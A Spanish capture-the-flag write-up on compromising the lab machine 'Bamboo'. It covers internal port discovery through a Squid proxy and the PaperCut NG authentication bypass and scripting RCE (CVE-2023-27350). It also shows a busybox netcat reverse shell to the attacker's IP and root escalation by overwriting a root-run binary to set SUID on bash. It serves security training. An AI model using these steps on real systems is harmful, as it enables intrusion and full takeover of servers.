---

# Descripcion

Bamboo es una máquina Linux de dificultad media que gira en torno al descubrimiento de servicios internos mediante un proxy Squid. A través de este conseguimos acceder a una instancia vulnerable de PaperCut NG, explotando un bypass de autenticación y su sistema de scripting para obtener ejecución remota de comandos. Finalmente, aprovechamos un binario modificable ejecutado por root para escalar privilegios mediante un ataque de PATH Hijacking.

---

# Reconocimiento

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar cuáles se encuentran abiertos.

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.9.22
```




> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para detectar los servicios y sus versiones.

```bash
nmap -p22,3128 -sC -sV 10.129.9.22
```



## Squid Proxy

> Tenemos un servicio **Squid Proxy** expuesto en el puerto `3128`.

> [!NOTE]
> **Squid** es uno de los servidores proxy web y de caché de código abierto más populares y veteranos. Lleva en funcionamiento desde los años 90.
> En términos sencillos, un proxy actúa como intermediario entre nuestro equipo y el destino al que queremos conectarnos. En lugar de establecer una conexión directamente, enviamos la petición a Squid y este se encarga de realizarla por nosotros.

> Vamos a crear un pequeño `script` en `Python` que nos permita detectar qué puertos internos se encuentran abiertos a través del `proxy`.

```python
import sys
import signal
import requests
from concurrent.futures import ThreadPoolExecutor

def def_handler(sig, frame):
    print("\n\n[!] Saliendo... Cancelando tareas pendientes...\n")
    sys.exit(1)

# Capturar el Ctrl+C para salir limpiamente
signal.signal(signal.SIGINT, def_handler)

main_url = "http://127.0.0.1"
squid_proxy = {'http': 'http://10.129.9.22:3128'}

def check_port(tcp_port):
    """Función que analiza un único puerto"""
    target_url = f"{main_url}:{tcp_port}"
    try:
        # Timeout bajo (2s) para que el escaneo general sea fluido
        r = requests.get(target_url, proxies=squid_proxy, timeout=2)

        # Si el proxy responde con algo que no sea 503, el puerto suele estar abierto
        if r.status_code != 503:
            print(f"[+] Port {tcp_port} - OPEN (Status: {r.status_code})")

    except requests.exceptions.ChunkedEncodingError:
        # El puerto está abierto, pero no habla HTTP
        print(f"[+] Port {tcp_port} - OPEN (Responded with non-HTTP data)")

    except (requests.exceptions.ConnectionError, requests.exceptions.Timeout):
        # El puerto está cerrado, filtrado o el proxy no pudo conectar
        pass

def portDiscovery():
    print("[*] Iniciando escaneo de los 65535 puertos TCP...")

    # max_workers define cuántas peticiones se hacen simultáneamente.
    # 50-100 suele ser un buen número sin llegar a saturar el proxy Squid.
    with ThreadPoolExecutor(max_workers=50) as executor:
        # Pasamos el rango completo de puertos (1 al 65535)
        executor.map(check_port, range(1, 65536))

if __name__ == '__main__':
    portDiscovery()
```



> Bien, ahora podemos acceder a nuestro navegador e implementar el `proxy` para conectarnos a los puertos internos. En mi caso, voy a utilizar la extensión `FoxyProxy`.



> Una vez configurado y activado el proxy, vamos a realizar peticiones a los puertos internos que hemos descubierto. El que nos devuelve información interesante es el puerto `9191`, así que vamos a acceder a él.



# Shell como papercut

## CVE-2023-27350

> Observamos que está utilizando **PaperCut NG 22.0**. Si buscamos información sobre esta versión, encontramos una vulnerabilidad que permite ejecutar comandos remotamente: **RCE - CVE-2023-27350**.

> Además, existe otra vulnerabilidad que nos permite interactuar con el `dashboard` sin necesidad de autenticarnos.

> Para ello, accederemos a la siguiente ruta:

```http
http://127.0.0.1:9191/app?service=page/SetupCompleted
```



> Al pulsar en `Login`, accederemos al panel de administración como si ya estuviéramos autenticados.


> PaperCut dispone de un mecanismo para ejecutar comandos mediante scripts. Para habilitar esta funcionalidad, primero debemos comprobar y configurar dos opciones.
>
> Nos dirigimos a `Options` y, posteriormente, a `Config Editor`.





> Filtramos por `script` y modificamos las opciones señaladas, tal y como se muestra en las imágenes.



> De esta manera, podremos ejecutar `scripts` que no estén restringidos por una `sandbox`.
>
> Ahora solo tenemos que acceder a las impresoras configuradas en PaperCut y dirigirnos a la pestaña `Scripting`.





> En este recuadro podemos introducir código `JavaScript` para ejecutarlo desde PaperCut.
>
> PaperCut utiliza un entorno de ejecución de JavaScript llamado **Rhino**, que permite interactuar con funciones de `Java`. Gracias a esto, podemos ejecutar comandos del sistema.
>
> Vamos a comprobarlo enviando un `ping` a nuestra máquina:

```javascript
Packages.java.lang.Runtime.getRuntime().exec("ping -c 1 10.10.14.220");
```



> Funciona correctamente, así que ahora vamos a intentar obtener una `shell`:

```bash
busybox nc 10.10.14.220 7777 -e /bin/bash
```



# Shell como root

## Enumeracion

> Conseguimos acceso al sistema como el usuario `papercut`.
>
> Comenzamos enumerando los permisos `SUID` y las `Capabilities`, pero no encontramos nada interesante.
>
> También localizamos una contraseña almacenada mediante `bcrypt` e intentamos crackearla con `Hashcat`, aunque no conseguimos obtener el resultado utilizando el diccionario `rockyou`.

> Durante la enumeración encontramos un directorio que contiene varios `binarios` que, aparentemente, se ejecutan cuando realizamos determinadas peticiones desde la aplicación web.
>
> Para comprobar con qué usuario se están ejecutando, vamos a utilizar `pspy64`.

> Finalmente, descubrimos cómo provocar la ejecución de uno de esos binarios:









## Binary Hijacking

> Vamos a ejecutar el binario `server-command`. Antes de modificarlo, comprobamos qué permisos tenemos sobre él:

```bash
ls -l /home/papercut/server/bin/linux-x64/server-command
```



> Comprobamos que tenemos permisos de escritura sobre el binario. Por tanto, vamos a modificarlo para que ejecute el siguiente comando:

```bash
chmod +s /bin/bash
```

> De esta forma, asignaremos el permiso `SUID` a Bash, lo que nos permitirá obtener una shell con los privilegios de su propietario, que en este caso es `root`.

> Modificamos el archivo:



> Volvemos a la aplicación web y pulsamos en `Refresh` para provocar nuevamente la ejecución del binario modificado.



> Comprobamos si se ha aplicado correctamente el permiso `SUID` a `/bin/bash`:

```bash
ls -l /bin/bash
```



> Observamos que Bash tiene el permiso `SUID`. Ahora podemos obtener una shell como `root` utilizando:

```bash
bash -p
```

